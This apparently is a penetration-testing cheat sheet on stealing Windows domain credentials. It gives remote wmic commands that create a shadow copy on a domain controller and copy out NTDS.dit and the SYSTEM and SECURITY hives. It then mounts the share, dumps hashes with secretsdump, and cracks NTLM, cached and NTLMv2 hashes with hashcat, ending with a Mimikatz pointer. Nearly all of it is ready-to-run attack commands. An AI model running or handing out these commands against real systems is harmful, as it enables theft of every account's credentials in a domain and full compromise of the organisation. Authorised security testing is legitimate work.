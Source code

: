 ## Shadowcopy
#### Create shadowcopy of the C:\ drive
```
wmic /node:<DC FQDN> /user:<USER>@<DOMAIN FQDN> /password:'<PASSWORD>' process call create "cmd /c vssadmin create shadow /for=C: 2>&1"
```

#### Copy the NTDS.dit, SYSTEM and SECURITY hives
```
wmic /node:<DC FQDN> /user:<USER>@<DOMAIN FQDN> /password:'<PASSWORD>' process call create "cmd /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit c:\temp\ & copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM c:\temp\ & copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY c:\temp\"
```

#### Mount the C:\temp drive
```
$creds = Get-Credential
New-PSDrive -Credential $creds -Name j \\<DC FQDN>\c$\temp -PSProvider FileSystem
```

#### Extract credentials
```
python3 /opt/impacket/examples/secretsdump.py -system SYSTEM -security SECURITY -ntds ntds.dit local
```

## Hashcat
- If you set usernames in the file use with `<USERNAME:<HASH>` format. Use --Username
#### Crack NTLM
- Format `5b184274dcba7bfd289e8a4f439676a4`
```
.\hashcat.exe -a 0 -m 1000 .\hast.txt .\wordlists\rockyou.txt -r .\rules\dive.rule -w3 -O
```

#### Crack Cached credentials
- Format `$DCC2$#user#7eb833ab3bddade058de4bc672debdde`
```
.\hashcat.exe -a 0 -m 2100 .\hash.txt .\wordlists\rockyou.txt -r .\rules\dive.rule -w3 -O
```

#### Crack NTLMv2
- Format `admin::N46iSNekpT:08ca45b7d7ea58ee:88dcbe4446168966a153a0064958dac6:5c7830315c7830310000000000000b45c67103d07d7b95acd12ffa11230e0000000052920b85f78d013c31cdb3b92f5d765c783030`
```
.\hashcat.exe -a 0 -m 5600 .\hash.txt .\wordlists\rockyou.txt -r .\rules\dive.rule -w3 -O
```

## Mimikatz
- Check out https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Mimikatz.md for more commands
